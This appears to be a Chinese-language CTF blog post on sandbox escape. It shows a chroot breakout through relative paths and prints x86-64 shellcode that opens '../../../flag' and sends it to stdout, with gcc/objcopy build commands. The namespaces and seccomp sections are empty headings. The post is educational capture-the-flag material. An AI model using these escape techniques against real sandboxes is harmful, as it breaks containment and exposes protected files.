 ```yaml
---
layout: post
tags: [pwn]
title: "sandboxing —— escape"
author: wsxk
date: 2024-11-25
comments: true
---
```


- [1. chroot escape](#1-chroot-escape)
  - [1.1 相对路径逃逸](#11-相对路径逃逸)
  - [1.2 编写shellcode实现逃逸](#12-编写shellcode实现逃逸)
- [2. namespaces escape](#2-namespaces-escape)
- [3. seccomp escape](#3-seccomp-escape)


## 1. chroot escape<br>
chroot详情可看[https://wsxk.github.io/sandboxing/](https://wsxk.github.io/sandboxing/)<br>

### 1.1 相对路径逃逸<br>
前文提到，chroot是改变了"/"在程序的根目录，这意味着**绝对路径的访问会被限制**，但是相对路径(这取决于你是在哪个目录下运行程序的)是可以绕过这个机制的<br>
示例如下:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241125213653.png)
上述场景中:<br>
```
1. 真flag 位于 /flag
2. 假flag 位于 /tmp/jaio-eyqnjg/flag
3. 程序的当前工作目录是 /home/wsxk/Desktop/CTF/sandboxing
```
因此绕过时使用的是`../../../../../flag`<br>

### 1.2 编写shellcode实现逃逸<br>
如果容器里允许你执行shellocde，那么可以尝试利用之前提到相对路径方法，编写shellcode实现逃逸<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 2
lea rdi, [rip+file_path]
mov rsi, 0
mov rdx, 0
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 128
mov rax, 40
syscall
file_path:
.string "../../../flag"
```
编译命令如下:<br>
```
gcc -nostdlib -static shellcode.s -o shellcode-elf
objcopy --dump-section .text=shellcode-raw shellcode-elf
cat shellcode-raw | /path/to/container/path 
```


## 2. namespaces escape<br>


## 3. seccomp escape<br>


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>